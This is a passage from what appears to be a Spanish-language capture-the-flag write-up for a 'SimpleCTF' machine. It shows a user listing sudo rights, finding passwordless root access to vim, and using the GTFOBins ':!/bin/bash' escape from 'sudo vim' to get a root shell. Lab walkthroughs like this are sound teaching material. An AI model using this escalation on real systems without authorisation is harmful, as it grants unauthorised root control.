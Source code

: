 Vemos que no hay ninguno vamos intentar hacernos _sudo_ o si tenemos algun privilegio y vemos que podemos ejecutar `vim` como **sudo**
```shell
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Ahora iremos a **GFTOBins** para ver si podemos convertirnos en **sudo** y vemos que si
[GFTOBins-Vim](https://gtfobins.github.io/vim/#sudo)
![](https://alvar-yoel.github.io/images/SimpleCTF/Vim.PNG)

Bueno pues vamos a probarlo
```shell
mitch@Machine:~$ mitch@Machine:~$ sudo vim
```

Ahora cuando se nos abra daremos al **ESC** y pondremos `:!/bin/bash`
```shell
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                                                                                                          
~                                                                    VIM - Vi IMproved                                                                     
~                                                                                                                                                          
~                                                                    version 7.4.1689                                                                      
~                                                                by Bram Moolenaar et al.                                                                  
~                                                 Modified by pkg-vim-maintainers@lists.alioth.debian.org                                                  
~                                                       Vim is open source and freely distributable                                                        
~                                                                                                                                                          
~                                                              Help poor children in Uganda!                                                               
~                                                     type  :help iccf<Enter>       for information                                                        
```